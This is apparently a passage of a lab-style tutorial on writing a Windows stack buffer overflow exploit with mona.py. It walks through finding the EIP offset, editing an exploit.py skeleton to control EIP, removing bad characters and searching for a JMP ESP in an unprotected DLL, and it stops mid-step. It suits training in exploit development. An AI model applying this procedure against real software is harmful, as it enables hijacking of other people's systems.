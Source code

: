 `!mona findmsp -distance <SIZE>`
Size is the same as the one used to create the pattern. The result should be something like :

`EIP contains normal pattern : ... (offset XXXX)`
Get the offset, modify in exploit.py:

- List itemThe offset variable by the offset
- List itemThe retn variable by “BBBB”
- List itemRemove the payload variable
```
offset = <OFFSET>
overflow = "A" * offset
retn = "BBBB"
payload = ""
```
Re-run exploit.py, EIP should be equal to 42424242 (hex value of “BBBB”). You now control EIP !
***
## Finding bad characters
Certain byte characters can cause issues in the development of exploits. We must run every byte through the program to see if any characters cause issues. By default, the null byte (\x00) is always considered a bad character as it will truncate shellcode when executed.

We will send bad characters recursively and analyze if they need to be removed. Let generate the list of bad characters with mona :

`!mona bytearray -b "\x00"`
Copy the results in the variable payload. And re-run exploit.py, the application should crash. Now to found those bad characters use this command :

`!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>`
If BadChars are found, we need to exclude them as well.

```
`!mona bytearray -b "\x00 + <BAD_CHARS>"`

# Example
!mona bytearray -b "\x00\x01\x02\x03"
```
Then compare again :

`!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>`
Repeat those two steps until the results status returns Unmodified, this indicates that no more bad characters exist.
***
## Finding a jump point
### JMP ESP - Inside the .exe
`!mona jmp -r esp -cpb "<BAD_CHARS>"`
### JMP ESP - inside a DLL
`!mona modules`
We need to found a .dll were Rebase, SafeSEH, ASLR, NXCompat are sets to False. When you found it, run the command below to search for a JMP ESP (FFE4), inside the dll :
